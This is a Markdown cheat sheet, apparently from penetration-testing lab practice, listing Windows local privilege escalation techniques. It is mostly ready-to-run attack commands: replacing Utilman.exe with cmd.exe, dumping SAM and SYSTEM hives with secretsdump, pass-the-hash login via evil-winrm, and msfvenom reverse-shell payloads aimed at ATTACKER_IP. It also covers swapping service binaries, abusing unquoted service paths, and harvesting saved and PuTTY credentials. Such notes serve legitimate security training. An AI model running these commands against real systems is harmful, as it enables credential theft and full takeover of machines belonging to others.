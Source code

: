 #windows/LPE
[[LPE]]
## Windows Privileges
`whoami /priv`

https://github.com/GhostPack/Seatbelt
https://github.com/411Hall/JAWS

`SeImpersonatePrivilege`
https://github.com/itm4n/PrintSpoofer

`SeTakeOwnership`
```shell-session
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```
```shell-session
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

C:\Windows\System32\> copy cmd.exe utilman.exe
```
go to lock screen

`SebackupUpPrivilege`
```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV 

download SYSTEM.SAV
download SAM.SAV
```
extract secrets
```bash
impacket-secretsdump -sam SAM.SAV -system SYSTEM.SAV LOCAL
```
get Administrator hash, log in using it:
```bash
evil-winrm -i 10.129.128.107 -u Administrator -H <nt hash>
```




https://lolbas-project.github.io/#
## winpease util
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## Unattended Windows Installations
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## Powershell History
```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

```shell-session
cmdkey /list
```

```shell-session
runas /savecred /user:admin cmd.exe
```


## IIS Configuration

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

## Retrieve Credentials from Software: PuTTY

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


## Scheduled Tasks

```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

```shell-session
C:\> schtasks /run /tn vulntask
```

## AlwaysInstallElevated
```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```


## Insecure Permissions on Service Executable

```shell-session
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

```shell-session
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

```shell-session
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

## Unquoted Service Paths
```shell-session
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

```shell-session
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

## Insecure Service Permissions
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk